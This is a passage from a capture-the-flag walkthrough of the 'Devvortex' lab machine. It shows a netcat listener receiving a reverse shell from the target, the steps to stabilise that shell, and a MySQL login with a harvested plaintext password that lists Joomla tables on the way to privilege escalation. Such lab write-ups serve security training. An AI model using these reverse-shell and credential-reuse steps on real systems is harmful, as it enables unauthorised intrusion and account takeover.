 ![Executing reverse shell command](/assets/images/Devvortex/executing_reverse_shell_command.png)

![Gaining access](/assets/images/Devvortex/gaining_access.png)

Let's stabilize the tty for doing ctrl+l and ctrl+c without any problem:

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.99] from (UNKNOWN) [10.10.11.242] 34744
bash: cannot set terminal process group (877): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ script /dev/null -c bash
<.htb/templates/cassiopeia$ script /dev/null -c bash         
Script started, file is /dev/null
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ ^Z
[1]  + 439239 suspended  nc -lvnp 443
❯ stty raw -echo; fg
[1]  + 439239 continued  nc -lvnp 443
                                     reset xterm
www-data@devvortex.htb/templates/cassiopeia$ export TERM=xterm                         
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ export SHELL=bash
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ stty rows 50 columns 184
```

# Privilege escalation to logan

Inspecting the database we can see the logan hash:

```bash
www-data@devvortex:~$ mysql -ulewis -p'P4ntherg0t1n5r3c0n##'
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 39
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.
mysql> show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
| sd4fg_action_logs             |
| sd4fg_action_logs_extensions  |
| sd4fg_action_logs_users       |
| sd4fg_assets                  |
| sd4fg_associations            |
| sd4fg_banner_clients          |
| sd4fg_banner_tracks           |
| sd4fg_banners                 |
```